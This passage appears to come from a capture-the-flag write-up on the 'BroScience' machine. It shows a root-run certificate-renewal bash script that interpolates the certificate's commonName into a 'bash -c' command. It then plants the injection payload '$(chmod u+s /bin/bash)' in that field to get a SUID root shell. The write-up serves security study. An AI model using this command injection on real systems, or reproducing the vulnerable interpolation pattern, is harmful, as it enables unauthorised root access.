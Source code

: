 ```bash

    country=${country:4}
    state=$(echo ${state:5} | awk -F, '{print $1}')
    locality=$(echo ${locality:3} | awk -F, '{print $1}')
    organization=$(echo ${organization:4} | awk -F, '{print $1}')
    organizationUnit=$(echo ${organizationUnit:5} | awk -F, '{print $1}')
    commonName=$(echo ${commonName:5} | awk -F, '{print $1}')

    echo $subject;
    echo "";
    echo "Country     => $country";
    echo "State       => $state";
    echo "Locality    => $locality";
    echo "Org Name    => $organization";
    echo "Org Unit    => $organizationUnit";
    echo "Common Name => $commonName";
    echo "Email       => $emailAddress";

    echo -e "\nGenerating certificate...";
    openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /tmp/temp.key -out /tmp/temp.crt -days 365 <<<"$country
    $state
    $locality
    $organization
    $organizationUnit
    $commonName
    $emailAddress
    " 2>/dev/null

    /bin/bash -c "mv /tmp/temp.crt /home/bill/Certs/$commonName.crt"
else
    echo "File doesn't exist"
    exit 1;
```

Let's create a certificate that will expire soon so that root will create a new one.  
We will leave everything empty except the **commonName**, that's the place where we store our payload.  

```bash
bill@broscience:~/Certs$ openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout broscience.key -out broscience.crt -days 10
Generating a RSA private key
........................................................................++++
.............................++++
writing new private key to 'broscience.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:$(chmod u+s /bin/bash)
Email Address []:
```
